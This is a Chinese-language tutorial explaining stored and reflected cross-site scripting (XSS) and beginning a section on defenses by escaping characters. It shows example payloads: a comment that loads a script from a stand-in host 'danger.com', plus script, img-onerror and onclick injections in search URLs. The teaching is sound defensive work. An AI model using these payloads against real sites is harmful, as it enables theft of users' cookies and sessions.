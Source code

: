 ## XSS 攻击

### 什么是 XSS 攻击

XSS 即 Cross Site Scripting（跨站脚本攻击）,指的是攻击者想尽一切办法将一些可执行的代码注入到网页中，利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。为了不和层叠样式表 CSS 混淆，故将其缩写为 XSS

XSS 可以分为：存储型 XSS (也叫持久型 XSS)、反射型 XSS (也叫非持久型)。

#### 存储型

存储型也就是攻击的代码被服务端写入进数据库中，这种攻击危害性很大，因为如果网站访问量很大的话，就会导致大量正常访问页面的用户都受到攻击。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

#### 反射型

反射型也叫非持久型，相比于前者危害就小一些，一般通过修改 URL 参数的方式加入攻击代码，诱导用户访问链接从而进行攻击。

这种常见于通过 URL 传递参数的功能，如网站搜索、跳转等。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

> 二者区别：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

举两个案例帮助更好的理解：当我们在做商品评论时，用户输入的内容未经过过滤直接保存到数据库中。

攻击者可以构建一条评论， 包含恶意内容：

```
质量非常不错！<script src="danger.com/spread.js"></script>
```

当你的评论列表被用户浏览时， 直接从服务端取出，回填到 HTML 响应中：

```
<li>质量非常不错！<script src="danger.com/spread.js"></script></li>
```

那么浏览器会加载执行恶意脚本 danger.com/spread.js， 在恶意脚本中利用用户的登录状态发更多的带有恶意评论的 URL， 诱导更多人点击，层层传播，放大攻击范围。

这个案例就是一个典型的存储型 XSS 攻击。再来看一个反射型攻击案例：

某天小范开发了一个搜索页面，通过用户输入搜索内容，展示相应的数据：

```
http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>

http://localhost:8080/helloController/search?name=<img src='w.123' onerror='alert("hey!")'>

http://localhost:8080/helloController/search?name=<a onclick='alert("hey!")'>点我</a>
```

有时攻击者会伪造一个图片，让你点击后链接跳转 URL。

对于这种攻击方式来说，如果用户使用的是 Chrome 浏览器的话，浏览器已经帮助用户做了防御攻击。但是我们也不能说就不防御了，因为无法保证用户都是用有防御攻击的浏览器。

### XSS 攻击如何进行防范

1. 输入输出过滤

一切用户输入皆不可信，在输出时进行验证，一般做法是将 ‘ ” < > & 这些个危险字符进行转义。
